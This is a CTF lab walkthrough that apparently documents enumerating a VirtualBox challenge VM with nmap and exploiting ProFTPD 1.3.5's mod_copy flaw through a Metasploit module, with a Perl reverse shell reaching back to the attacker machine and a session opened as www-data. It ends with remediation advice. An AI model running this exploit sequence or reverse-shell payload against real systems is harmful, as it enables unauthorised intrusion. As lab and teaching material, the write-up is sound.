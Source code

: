 ## **Task 4 – Vulnerability Report (CTF Walkthrough)**

---

### **Challenge Information**

* **VM Setup**: OVA file imported into **VirtualBox** (NAT Network)
* **Attacker Machine**: Kali Linux

  * **IP**: `10.0.2.15`
* **Target Machine**: Challenge VM

  * **IP**: `10.0.2.4`
* **Tools Used**:

  * Nmap (7.95)
  * Metasploit Framework (msf6)

---

## **1. Enumeration**

### **1.1 Nmap Service Scan**

Command:

```bash
nmap -sC -sV -A 10.0.2.4 -oN nmap_initial.txt
```

**Findings:**

```
PORT     STATE  SERVICE     VERSION
21/tcp   open   ftp         ProFTPD 1.3.5
22/tcp   open   ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13
80/tcp   open   http        Apache httpd 2.4.7
445/tcp  open   netbios-ssn Samba smbd 4.3.11-Ubuntu
631/tcp  open   ipp         CUPS 1.7
3306/tcp open   mysql       MySQL (unauthorized)
8080/tcp open   http        Jetty 8.1.7.v20120910
```


---

### **1.2 Vulnerability Notes**

* **FTP (ProFTPD 1.3.5)** – Known `mod_copy` Remote Command Execution vulnerability.
* **HTTP (Port 80)** – Directory listing enabled; public access to `chat/`, `drupal/`, `phpmyadmin/`, and `payroll_app.php`.
* **Samba (Port 445)** – Message signing disabled; susceptible to MITM attacks.
* **CUPS (Port 631)** – `PUT` method enabled; may allow file uploads.
* **MySQL (Port 3306)** – Open to network but requires credentials.
* **Jetty (Port 8080)** – Outdated version; potential Java-based vulnerabilities.

---

## **2. Exploitation**

### **2.1 Vulnerability Search**

Searched for ProFTPD 1.3.5 exploits:

```bash
searchsploit ProFTPD 1.3.5
```

Found:

* `ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)`

---

### **2.2 Metasploit Exploitation**

1. Start Metasploit:

```bash
msfconsole
```

2. Search and select module:

```bash
search ProFTPD 1.3.5
use 0
```

![Screenshot – exploit](./screenshots/found_exploit.png)

3. Show options and configure target:

```bash
show options
set RHOST 10.0.2.4
set SITEPATH /var/www/html
```

4. Initial payload failed, switched to Perl reverse shell:

```bash
set payload cmd/unix/reverse_perl
```

5. Exploit:

```bash
exploit
```

**Result:**

```
[*] Command shell session 4 opened (10.0.2.15:4444 -> 10.0.2.4:56974)
```

![Screenshot – Shell Obtained](./screenshots/shell_obtained.png)

---

### **2.3 Post-Exploitation**

* Verified user:

```bash
whoami
```

Output:

```
www-data
```

* Checked `/var/www/html`:

```bash
ls
```

Found:

```
chat
drupal
payroll_app.php
phpmyadmin
shell
```

<!-- ![Screenshot – Directory Listing](./screenshots/dir_listing.png) -->

No privilege escalation was performed; engagement ended at `www-data`.

---

## **3. Vulnerability Explanation – ProFTPD mod\_copy**

The `mod_copy` module in ProFTPD allows file copying on the server using the `SITE CPFR` and `SITE CPTO` commands.
In vulnerable configurations, it can be abused to:

* Copy a malicious payload to a web-accessible directory
* Trigger the payload for remote code execution

In this case, Metasploit automated:

* Upload of a malicious PHP payload to `/var/www/html`
* Execution of the payload via HTTP to open a reverse shell

---

## **4. Recommendations**

* **Update ProFTPD** to a patched version (> 1.3.5) or disable `mod_copy`.
* Disable **directory listing** in Apache.
* Enable **Samba message signing**.
* Restrict CUPS and MySQL services to localhost.
* Regularly patch **Jetty** to the latest version.

---

**Prepared By:** *DILSHAD AHAMMED N*

**Date:** Aug 13, 2025